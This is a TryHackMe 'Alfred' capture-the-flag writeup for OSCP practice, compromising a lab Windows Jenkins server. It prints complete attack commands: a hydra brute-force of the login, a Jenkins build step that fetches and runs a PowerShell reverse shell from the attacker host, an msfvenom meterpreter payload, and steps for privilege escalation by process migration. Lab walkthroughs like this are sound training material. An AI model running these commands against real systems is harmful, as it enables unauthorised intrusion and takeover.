 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since TryHackMe (THM) provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the command ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:
| Port | Protocol | Service |
|-----:|----------|---------|
|    80|       TCP|     HTTP|
|  3389|       TCP| MS-WBT-Server|
|  8080|       TCP|   HTTP-PROXY|
 
![NMAP Enumeration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028174616.png)

Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne.

![Port 80 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175000.png) 

We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page. 
![Port 8080 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information. 
![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)

Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. 
![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 

By utilizing Hydra we see a successful login with the username admin and the password admin. 
![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png)

Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under. 
![Jenkins Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190845.png)

We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` 
![Reverse Shell Execution](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.
![Reverse Shell Establoshed](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213936.png) 
![Flag Achieved](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` 
![MSFVenom Payload Creation](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221202.png)

Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.
![MSFConsole Setup](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221944.png)

Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` 
![Jenkins Payload Retrieval](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028222440.png)

Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. 
![Exploit Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223121.png)

This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. 
![Meterpreter Launch](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223212.png)

With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. 
![Process Listing](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.
![Process Migration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224629.png) 
![Root Flag](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224954.png) 
